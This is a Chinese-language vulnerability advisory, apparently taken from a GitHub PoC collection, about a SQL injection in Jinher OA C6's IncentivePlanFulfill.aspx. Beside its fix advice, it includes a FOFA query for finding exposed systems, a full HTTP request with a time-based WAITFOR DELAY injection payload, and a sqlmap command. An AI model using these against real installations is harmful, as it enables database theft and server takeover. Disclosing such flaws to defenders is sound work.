


# 关于金和OA C6 IncentivePlanFulfill.aspx SQL注入漏洞预警

# 漏洞描述

金和OA C6 IncentivePlanFulfill.aspx接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响范围

金和OA C6

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="金和网络-金和oa"

POC/EXP：

GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1%20WAITFOR%20DELAY%20'0:0:10'--&TVersion=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

sqlmap验证

sqlmap.py -u http://127.0.0.1/C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1*&TVersion=1

# 修复方案

**官方修复：**

官方已修复该漏洞，请用户联系厂商修复漏洞：http://www.jinher.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
